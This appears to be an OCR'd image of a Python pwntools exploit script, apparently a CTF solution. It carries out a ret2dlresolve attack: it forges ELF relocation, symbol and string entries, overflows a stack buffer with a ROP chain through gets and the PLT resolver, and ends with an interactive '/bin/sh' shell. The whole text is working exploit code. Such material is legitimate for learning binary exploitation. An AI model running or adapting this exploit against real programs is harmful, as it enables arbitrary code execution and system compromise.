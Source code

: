 ```pytyon=
fake_sym_align = 0x18 - (fake_sym_offset % 0x18)
fake_sym_offset += fake_sym_align

# fake rela
fake_rela = p64(addr_got_gets)          # r_offset
fake_rela += p64((fake_sym_offset // 0x18) << 32 | 0x7)       # r_info
fake_rela += p64(0x0)                   # r_addend

# fake .dynstr
fake_str_offset = (base_stage + 0x10 + fake_rela_align + len(fake_rela) + fake_sym_align + 0x18) - addr_dynstr

# fake str
fake_str = b"puts\x00"

# fake sym
fake_sym = p32(fake_str_offset)        # st_name
fake_sym += p32(0x12)       # st_info, st_other, st_shndx
fake_sym += p64(0x0)        # st_value
fake_sym += p64(0x0)        # st_size

print("[*] addr .plt start : 0x{:x}".format(addr_plt_start))
print("[*] addr .rela.plt start : 0x{:x}".format(addr_rela_plt))
print("[*] addr .dynsym start : 0x{:x}".format(addr_dynsym))
print("[*] addr .dynstr start : 0x{:x}".format(addr_dynstr))

print("[*] addr fake puts_rela : 0x{:x}".format(base_stage + 0x10))

buf = b'A' * 0x78
buf += p64(addr_pop_rdi)
buf += p64(base_stage)
buf += p64(addr_plt_gets)
buf += p64(addr_pop_rdi)
buf += p64(base_stage)
# buf += p64(addr_plt_puts)
buf += p64(addr_plt_start)
buf += p64(puts_reloc_arg)
buf += p64(addr_plt_exit)

buf2 = b"/bin/sh\x00"
buf2 += p64(0x0)
buf2 += b"B" * fake_rela_align
buf2 += fake_rela
buf2 += b"C" * fake_sym_align
buf2 += fake_sym
buf2 += fake_str

_ = input()
target.sendline(buf)
target.sendline(buf2)

target.interactive()
```
